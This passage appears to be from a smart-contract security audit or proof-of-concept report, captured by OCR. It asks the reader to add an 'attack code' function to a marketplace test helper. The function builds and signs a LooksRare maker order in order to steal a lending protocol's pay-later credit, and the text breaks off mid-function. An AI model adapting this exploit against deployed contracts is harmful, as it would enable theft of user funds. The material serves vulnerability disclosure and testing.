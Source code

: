 In `marketplace-helper.ts`, please copy in the following attack code:

    export async function executeLooksrareBuyWithCreditAttack(
        tokenToBuy: MintableERC721 | NToken,
        tokenToPayWith: MintableERC20,
        makerAmount: BigNumber,
        takerAmount: BigNumber,
        creditAmount : BigNumberish,
        nftId: number,
        maker: SignerWithAddress,
        taker: SignerWithAddress
    ) {
      const signer = DRE.ethers.provider.getSigner(maker.address);
      const chainId = await maker.signer.getChainId();
      const nonce = await maker.signer.getTransactionCount();

      // approve
      await waitForTx(
          await tokenToBuy
              .connect(maker.signer)
              .approve((await getTransferManagerERC721()).address, nftId)
      );

      const now = Math.floor(Date.now() / 1000);
      const paramsValue = [];
      const makerOrder: MakerOrder = {
        isOrderAsk: true,
        signer: maker.address,
        collection: tokenToBuy.address,
        // Listed Maker price not includes payLater amount which is stolen
        price: makerAmount,
        tokenId: nftId,
        amount: "1",
        strategy: (await getStrategyStandardSaleForFixedPrice()).address,
        currency: tokenToPayWith.address,
        nonce: nonce,
        startTime: now - 86400,
        endTime: now + 86400, // 2 days validity
        minPercentageToAsk: 7500,
        params: paramsValue,
      };

      const looksRareExchange = await getLooksRareExchange();

      const {domain, value, type} = generateMakerOrderTypedData(
          maker.address,
          chainId,
          makerOrder,
          looksRareExchange.address
      );

      const signatureHash = await signer._signTypedData(domain, type, value);

      const makerOrderWithSignature: MakerOrderWithSignature = {
        ...makerOrder,
        signature: signatureHash,
      };
